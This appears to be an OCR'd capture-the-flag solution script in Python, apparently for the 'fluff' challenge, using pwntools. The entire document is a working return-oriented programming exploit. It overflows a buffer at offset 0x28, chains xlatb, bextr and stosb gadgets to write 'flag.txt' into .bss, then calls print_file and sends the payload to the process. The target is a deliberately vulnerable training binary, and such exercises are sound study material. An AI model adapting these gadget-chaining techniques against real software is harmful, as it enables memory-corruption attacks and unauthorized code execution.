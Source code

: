 ```python
g_xlatb=0x00400628
# pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
g_bextr = 0x0040062a
# stosb byte [rdi], al; ret
g_stosb = 0x00400639
# pop rdi ; ret
g_pop_rdi = 0x4006a3


def load_al_from_addr(addr, al):
    r=p64(g_bextr)
    r+=p64(64<<8)
    r+=p64(addr-0x3ef2-al)
    r+=p64(g_xlatb)
    return r

def write_al_to_addr(addr):
    r=p64(g_pop_rdi)
    r+=p64(addr)
    r+=p64(g_stosb)
    return r


# Offset avant ecrasement de l'adresse de retour
offset=0x28

# Set up pwntools for the correct architecture
elf =  ELF('fluff')
context.binary=elf

print_file=elf.plt['print_file']

bss = 0x00601038

flag_txt = [0x4003c4, 0x4003c5, 0x4005d2, 0x4003cf, 0x400436,  0x4006cb, 0x4006c8, 0x4006cb]
lst_al = b"\x0bflag.txt"

PL =b"A"*offset
for i, letter_addr in enumerate(flag_txt):
    PL += load_al_from_addr(letter_addr,lst_al[i])
    PL += write_al_to_addr(bss+i)

PL+=p64(g_pop_rdi)
PL+=p64(bss)
PL+=p64(print_file)

io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)
    #io = gdb.debug([elf.path],gdbscript=gs)

# io.recvuntil(b"> ")
io.sendline(PL)
io.interactive()
```
